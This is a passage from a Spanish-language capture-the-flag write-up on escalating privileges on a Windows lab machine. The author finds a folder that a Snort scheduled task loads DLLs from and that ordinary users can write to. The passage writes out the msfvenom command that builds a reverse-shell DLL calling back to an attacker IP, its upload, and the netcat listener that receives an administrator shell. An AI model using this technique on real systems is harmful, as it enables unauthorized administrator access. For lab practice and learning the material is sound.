También, en el directorio C:\Snort\log podemos ver que se están creando logs cada dos minutos, por lo que podemos deducir que hay una tarea que cada dos minutos se ejecuta por detrás.

Ahora solo hace falta comprobar si tenemos permisos para crear archivos en C:\Snort\lib\snort_dynamicpreprocessor
*Evil-WinRM* PS C:\Snort\lib> icacls snort_dynamicpre*
snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
BUILTIN\Administrateurs:(I)(OI)(CI)(F)
BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
BUILTIN\Utilisateurs:(I)(CI)(AD)
BUILTIN\Utilisateurs:(I)(CI)(WD)
CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)
Successfully processed 1 files; Failed processing 0 files
Vemos que el grupo Utilisateurs puede escribir WD -> Write Data y AP -> Append Data añadir datos y nosotros pertenecemos a este grupo, lo podemos comprobar con whoami /groups
Ahora que tenemos el vector de ataque claro..
Podemos probar a crear un archivo .dll malicioso.
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -a x64 -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
Y a subirlo en este directorio.
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> upload shell.dll
Info: Uploading /home/pointedsec/Desktop/analysis/content/shell.dll to C:\Snort\lib\snort_dynamicpreprocessor\shell.dll
Data: 12288 bytes of 12288 bytes copied
Info: Upload successful!
Después de esperar un rato..
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 54068
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
analysis\administrateur
Podemos ver la flag de root
C:\Users\Administrateur\Desktop>type root.txt
type root.txt
749dd2480737c7...
¡Y ya estaría!
Happy Hacking! 🚀